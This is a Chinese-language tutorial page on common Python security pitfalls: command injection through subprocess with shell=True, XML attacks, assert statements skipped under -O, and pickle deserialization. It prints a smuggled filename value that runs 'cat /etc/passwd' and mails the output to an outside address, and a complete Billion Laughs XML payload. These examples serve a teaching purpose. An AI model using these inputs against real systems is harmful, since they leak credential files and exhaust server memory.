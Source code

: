 # Common Security Gotchas
[10 common security gotchas in Python and how to avoid them](https://hackernoon.com/10-common-security-gotchas-in-python-and-how-to-avoid-them-e19fbe265e03)

<br>

## 1. 输入注入攻击
--------

输入注入可以发生在下面两种情况

* SQL查询, [SQL injection cheat sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* 命令执行, [Dangerous Python Functions](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)

原因都是没有对输入的数据进行 **“escaping quotes”** 处理，比如下面的视频转码的接口

```
    import subprocess

    def transcode_file(request, filename):
        command = 'ffmpeg -i "{source}" output_file.mpg'.format(source=filename)
        subprocess.call(command, shell=True) # 危险
```

攻击的点就在于，没有对filename做输入验证和处理，如果攻击者传入如下字符串，那就危险了
```
    "; cat /etc/passwd | mail them@domain.com
```

解决办法:
    
* 使用工具对数据的数据进行检查, 对于上述的shell命令，可以用python包 shelx 进行 **escape input** 处理


## 2. 解析XML
--------

xml的攻击有很多种，可以看这个包的说明: [defusedxml](https://pypi.org/project/defusedxml/)

其中的一种攻击叫 "Billion Laughs":

解析一个很小的xml文件可能造成上G的内存占用，比如下面的文件
```
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
      <!ENTITY lol "lol">
      <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
      <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
      <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
      <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
      <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
      <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
      <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
      <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
```
当执行解析上面的代码时，消耗的大量的内存 和 cpu (手动kill，没有等它执行完毕)

![Alt text](resource/1.1.jpg)

<br>

在有一种常用攻击就是XEE攻击

可以直接执行任何命令


解决办法:
    
* 使用defusedxml进行xml的操作


## 3. assert 语句
--------

assert只有在python运行在debug模式下才会生效，如果启用-O时，会忽略这样的判断，如下是python文档中的描述

所以尽量不要用assert来判断

>These equivalences assume that __debug__ and AssertionError refer to the built-in variables with those names. In the current implementation, the built-in variable __debug__ is True under normal circumstances, False when optimization is requested (command line option -O).

## 4. pickle
--------

python 通过调用对象的__reduce__方法来生成序列化的字符串,所以重写这个方法可以执行任何命令

比如 1.3_pickles.py 的例子